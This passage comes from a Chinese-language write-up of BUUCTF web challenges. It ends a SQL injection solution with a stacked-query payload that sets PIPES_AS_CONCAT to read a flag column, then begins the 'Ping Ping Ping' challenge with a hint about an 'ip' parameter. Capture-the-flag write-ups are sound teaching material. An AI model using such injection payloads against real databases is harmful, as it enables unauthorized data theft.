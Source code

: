 另: 可以通过修改SQL配置,将`||`设置为连接符,当将`||`视为连接符之后,执行下面的语句将分别查询`1`和`flag`

```
select 1||flag from Flag; 
```

那么payload为:

```
1;set sql_mode=PIPES_AS_CONCAT;select 1
实际执行的语句为:
select 1;
set sql_mode=PIPES_AS_CONCAT;
select 1||flag from Flag;
```

<br>

***

<br>

# [GXYCTF2019]Ping Ping Ping

<img src="/images/buuctf-web/image-20221013203635206.png" alt="image-20221013203635206" style="zoom:67%;" />

打开网页只有这么几个字符,可能是提示在url里带上参数`ip`

<img src="/images/buuctf-web/image-20221013203740321-166704781973310.png" alt="image-20221013203740321" style="zoom:67%;" />
